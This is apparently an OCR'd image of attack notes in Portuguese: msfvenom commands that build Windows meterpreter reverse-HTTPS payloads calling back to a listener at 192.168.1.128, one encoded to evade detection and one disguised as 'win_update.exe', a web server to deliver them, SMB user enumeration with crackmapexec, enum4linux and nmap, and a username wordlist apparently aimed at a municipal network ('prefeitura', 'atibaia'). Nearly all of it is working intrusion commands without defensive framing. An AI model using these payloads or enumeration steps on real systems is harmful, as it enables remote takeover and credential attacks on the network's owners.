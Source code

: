 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

crackmapexec smb 192.168.1.84 --users

nano userlist_atibaia_rdp.txt

# Gerar uma wordlist atualizada de usuários, incluindo os descobertos pelo enum4linux

usernames_updated = [
    "admin", "administrator", "atibaia", "servidor", "sumas", "sumas57667", "prefeitura",
    "contas", "financeiro", "user01", "user02", "secretaria", "ti", "tecnico", "suporte",
    "gestor", "coordenador", "responsavel", "servidor1", "servidor2", "atibaia.local",
    "a.sumas", "dirigente", "adm.atibaia", "servidor.atibaia", "admin.sumas", "diretoria",
    "admin.ti", "servidor.ti", "guest", "krbtgt", "domain_admins", "root", "bin", "none"
]

# Salvar a nova wordlist em arquivo
userlist_updated_path = "/mnt/data/userlist_atibaia_rdp_atualizada.txt"
with open(userlist_updated_path, "w") as f:
    for user in usernames_updated:
        f.write(user + "\n")

userlist_updated_path



nano brute_force_vnc.py

#!/usr/bin/env python3
import os
import subprocess

def enumerate_users(ip):
    print(f"[+] Enumerando usuários via enum4linux em {ip}...")
    subprocess.run(["enum4linux", "-a", ip])

    print(f"[+] Tentando enumerar usuários via crackmapexec em {ip}...")
    subprocess.run(["crackmapexec", "smb", ip, "--users"])

    print(f"[+] Tentando enumeração via Nmap em {ip}...")
    subprocess.run(["nmap", "-p", "445", "--script", "smb-enum-users", ip])

if __name__ == "__main__":
    target_ip = input("Digite o IP do alvo para enumerar usuários: ")
    enumerate_users(target_ip)

    


